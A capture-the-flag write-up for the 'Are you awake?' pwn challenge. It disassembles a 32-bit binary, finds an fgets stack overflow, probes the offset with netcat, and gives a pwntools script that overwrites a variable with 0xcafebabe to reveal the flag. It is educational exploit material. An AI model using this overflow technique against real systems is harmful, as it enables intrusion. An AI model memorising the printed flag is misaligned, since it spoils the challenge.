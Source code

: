 Are you awake?
20

Are you awake?

nc areyouawake.chals.fuzzy.land 5503


Solution
========

First of all, let's analyze the binary file:
```
$ file awake
awake: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=759b6f50dbea9e6924bab76a7add1c4bf121e5c2, not stripped
```
```
$ checksec awake
[*] 'awake'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
It's a 32bit Linux ELF binary with stack protection disabled ("No canary found")
but with a non-executbale stack ("NX enabled"). Furthermore the file is
little-endian ("LSB executable"). That's already some usefull
information, so let's now find out what the program does. We execute the program and enter ```yes```:

```
$ nc areyouawake.chals.fuzzy.land 5503
```
```
Are you awake? yes
Nope, you are still sleeping! (0xdeadbeef)
😴
```
The program gives us a hint: ```(0xdeadbeef)```.
Obviously there's a variable which stores the value ```0xdeadbeef``` which we
might have to change to some specific value in order to get the flag. Since we
don't have the source code available, we have to disassemble the binary:

```
$ objdump -d awake
```
```
0804854b <check_awake>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%esp
 8048551:	83 ec 0c             	sub    $0xc,%esp
 8048554:	68 d0 86 04 08       	push   $0x80486d0
 8048559:	e8 72 fe ff ff       	call   80483d0 <printf@plt>
 804855e:	83 c4 10             	add    $0x10,%esp
 8048561:	a1 40 a0 04 08       	mov    0x804a040,%eax
 8048566:	83 ec 04             	sub    $0x4,%esp
 8048569:	50                   	push   %eax
 804856a:	68 28 01 00 00       	push   $0x128
 804856f:	ff 75 08             	pushl  0x8(%ebp)
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 8048577:	83 c4 10             	add    $0x10,%esp
 804857a:	90                   	nop
 804857b:	c9                   	leave
 804857c:	c3                   	ret

0804857d <func>:
 804857d:	55                   	push   %ebp
 804857e:	89 e5                	mov    %esp,%ebp
 8048580:	81 ec 88 00 00 00    	sub    $0x88,%esp
 8048586:	83 ec 08             	sub    $0x8,%esp
 8048589:	68 28 01 00 00       	push   $0x128
 804858e:	8d 85 78 ff ff ff    	lea    -0x88(%ebp),%eax
 8048594:	50                   	push   %eax
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
 804859a:	83 c4 10             	add    $0x10,%esp
 804859d:	8b 45 08             	mov    0x8(%ebp),%eax
 80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
 80485a5:	75 2a                	jne    80485d1 <func+0x54>
 80485a7:	83 ec 0c             	sub    $0xc,%esp
 80485aa:	68 e0 86 04 08       	push   $0x80486e0
 80485af:	e8 3c fe ff ff       	call   80483f0 <puts@plt>
 80485b4:	83 c4 10             	add    $0x10,%esp
 80485b7:	83 ec 0c             	sub    $0xc,%esp
 80485ba:	68 29 87 04 08       	push   $0x8048729
 80485bf:	e8 3c fe ff ff       	call   8048400 <system@plt>
 80485c4:	83 c4 10             	add    $0x10,%esp
 80485c7:	83 ec 0c             	sub    $0xc,%esp
 80485ca:	6a 01                	push   $0x1
 80485cc:	e8 3f fe ff ff       	call   8048410 <exit@plt>
 80485d1:	8b 45 08             	mov    0x8(%ebp),%eax
 80485d4:	83 ec 08             	sub    $0x8,%esp
 80485d7:	50                   	push   %eax
 80485d8:	68 38 87 04 08       	push   $0x8048738
 80485dd:	e8 ee fd ff ff       	call   80483d0 <printf@plt>
 80485e2:	83 c4 10             	add    $0x10,%esp
 80485e5:	83 ec 0c             	sub    $0xc,%esp
 80485e8:	68 5e 87 04 08       	push   $0x804875e
 80485ed:	e8 fe fd ff ff       	call   80483f0 <puts@plt>
 80485f2:	83 c4 10             	add    $0x10,%esp
 80485f5:	83 ec 0c             	sub    $0xc,%esp
 80485f8:	6a 00                	push   $0x0
 80485fa:	e8 11 fe ff ff       	call   8048410 <exit@plt>

080485ff <main>:
 80485ff:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8048603:	83 e4 f0             	and    $0xfffffff0,%esp
 8048606:	ff 71 fc             	pushl  -0x4(%ecx)
 8048609:	55                   	push   %ebp
 804860a:	89 e5                	mov    %esp,%ebp
 804860c:	51                   	push   %ecx
 804860d:	83 ec 04             	sub    $0x4,%esp
 8048610:	a1 44 a0 04 08       	mov    0x804a044,%eax
 8048615:	6a 00                	push   $0x0
 8048617:	6a 02                	push   $0x2
 8048619:	6a 00                	push   $0x0
 804861b:	50                   	push   %eax
 804861c:	e8 0f fe ff ff       	call   8048430 <setvbuf@plt>
 8048621:	83 c4 10             	add    $0x10,%esp
 8048624:	83 ec 0c             	sub    $0xc,%esp
 8048627:	68 ef be ad de       	push   $0xdeadbeef
 804862c:	e8 4c ff ff ff       	call   804857d <func>
 8048631:	83 c4 10             	add    $0x10,%esp
 8048634:	b8 00 00 00 00       	mov    $0x0,%eax
 8048639:	8b 4d fc             	mov    -0x4(%ebp),%ecx
 804863c:	c9                   	leave
 804863d:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048640:	c3                   	ret
 8048641:	66 90                	xchg   %ax,%ax
 8048643:	66 90                	xchg   %ax,%ax
 8048645:	66 90                	xchg   %ax,%ax
 8048647:	66 90                	xchg   %ax,%ax
 8048649:	66 90                	xchg   %ax,%ax
 804864b:	66 90                	xchg   %ax,%ax
 804864d:	66 90                	xchg   %ax,%ax
 804864f:	90                   	nop
 ```
In the disassembly of ```<main>``` we can see a function call to ```<func>``` with one
function argument: ```0xdeadbeef```:
```
8048627:	68 ef be ad de       	push   $0xdeadbeef
804862c:	e8 4c ff ff ff       	call   804857d <func>
```

The disassembly of ```<func>``` tells us, that the function argument (in this particular case it's 0xdeadbeef) is then compared with the hard coded value 0xcafebabe:
```
...
80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
...
```
Let's see if we can change the variable's content from 0xdeadbeef to something
else:
```
$ python -c 'print "A"*142' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbeef)
😴
```
Hm, nothing happened so far. But what if we add another A to the payload?
```
$ python -c 'print "A"*143' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbe00)
😴
```
Here we go! We just successfully modified the value from ```0xdeadbeef``` to ```0xdeadbe00```. That's most likely caused by the [NULL termination](https://stackoverflow.com/questions/2037209/what-is-a-null-terminated-string) of the C library function ```fgets()``` which reads in our input. The call to function ```fgets()``` can be found in the disassembly of the function ```<check_awake>```...
```
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 ```
...which in turn is called within function ```<func>```:
```
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
```
So let's continue to add some more A's to our payload:
```
$ python -c 'print "A"*144' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdead000a)
😴
$ python -c 'print "A"*145' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xde000a41)
😴
$ python -c 'print "A"*146' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa4141)
😴
$ python -c 'print "A"*147' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa414141)
😴
$ python -c 'print "A"*148' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0x41414141)
😴
```
Now we have completely overwritten the variable and therefore replaced the value ```0xdeadbeef``` with our A's which are represented by the ASCII hex code ```0x41```. 

In the beginning we found out that the binary is 32 bit. 8 bits are 1 byte. And each one of our A's is 1 byte as well. Therefore 4 A's form a 32 bit address. 
In order to get the flag, all we have to do is to replace ```0x41414141``` with the previously gathered value ```0xcafebabe```. As mentioned earlier, the binary is little-endian. Therefore we have to store the 4 bytes in reverse order. So ```0xca``` ```0xfe``` ```0xba``` ```0xbe``` becomes ```0xbe``` ```0xba``` ```0xfe``` ```0xca```:
```
$ python -c 'print "A"*144 + "\xbe\xba\xfe\xca"' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Oh, good morning :)
What better way to start the day than with a flag ;)
LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}
```
This can even be simplified by using the [packing](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing) function of the so-called [pwntools](https://github.com/Gallopsled/pwntools) Python library:
```
#!/usr/bin/python

from pwn import *

p = remote( "areyouawake.chals.fuzzy.land", 5503 )

payload = "A" * 144
payload += p32( 0xcafebabe )

print( p.recv() )
p.sendline( payload )
print( p.recv() )
print( p.recv() )
```
```
$ python exploit.py
[+] Opening connection to areyouawake.chals.fuzzy.land on port 5503: Done
Are you awake?
Oh, good morning :)
What better way to start the day than with a flag ;)

LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}

[*] Closed connection to areyouawake.chals.fuzzy.land port 5503
```
That's it.
